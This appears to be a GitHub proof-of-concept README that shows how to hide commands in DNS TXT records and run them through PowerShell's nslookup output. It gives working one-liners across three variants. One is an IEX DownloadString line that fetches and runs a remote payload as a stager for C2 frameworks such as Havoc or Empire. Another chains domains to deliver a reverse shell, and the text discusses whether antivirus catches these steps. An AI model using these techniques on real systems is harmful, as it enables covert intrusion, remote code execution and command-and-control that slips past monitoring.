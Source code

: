 ### Variant 0.1
Commands are stored as TXT entries on a DNS server and requested via nslookup (a.k.a "nshookup").<br><br>
Client executing:.<br>
`powershell (nslookup -q=txt domain.com)[5]`<br><br>
DNS Server entry:<br>
`ping google.com`<br><br>
*EXPLANATION: nslookup.exe calls the TXT entry through DNS as subprocess from powershell. This way the stored commands get transmitted over DNS and executed in the context of the current (powershell) process. The number in the brackets stands for the index (five being the first possible one) of the command. It is also possible to use "[-1]" should there be only a single command available as TXT entry.*<br><br>

The outcome is `powershell ping google.com` being executed in the current session on the clients system.

![GRAPHIC_1](https://github.com/Dood3/PoCs/assets/93183445/ed4ab94c-44fa-4cde-924b-10f26ebbc169)


### Variant 0.2
-> Commands are stored as TXT entries on a DNS server to host a payload/stager for a  reverse connection to a C2 server (Havoc, Empire, etc.).<br><br>
Client executing:<br>
`powershell (nslookup -q=txt domain.com)[5]`<br><br>
DNS Server entry:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: Again, the TXT enty is interpreted as legitimate command through parent & child process being powershell and a DNS request respectively.
The file hosting the payload is not bound to any file formats. A simple file without suffix will work. 
This request will most likely trigger AV (AMSI). If "IEX" doesn't get caught, the delivered payload itself will.*<br>

 ![GRAPHIC_2](https://github.com/Dood3/PoCs/assets/93183445/b9052342-258e-4e92-8559-abdec97e44b8)


### Variant 0.3
-> Commands are stored as TXT entries on a domain1.com to host another nslookup command requesting entries from domain2.com.<br><br>
Client executing:<br>
`powershell (nslookup -q=txt domain1.com)[5]`<br><br>
DNS Server entry (the index may vary):<br>
`powershell (nslookup -q=txt domain2.com)[5]`<br><br>
*EXPLANATION: The commands can be chained together with a combination of dns servers. The client requests the first domain, which in return requests the actual commands.on the second server.*<br>
This will most likely trigger AV (AMSI).<br>

1. `powershell (nslookup -q=txt bad-domain.com)[5]`<br>
2. `powershell (nslookup -q=txt bad-domain_2.com)[5]`<br>
3. `Command gets delivered to Client (over dns)`<br>
4. `Reverse shell phoning home`<br>

  ![GRAPHIC_3](https://github.com/Dood3/PoCs/assets/93183445/3243575e-8f56-478b-bf27-f3a1d4788557)

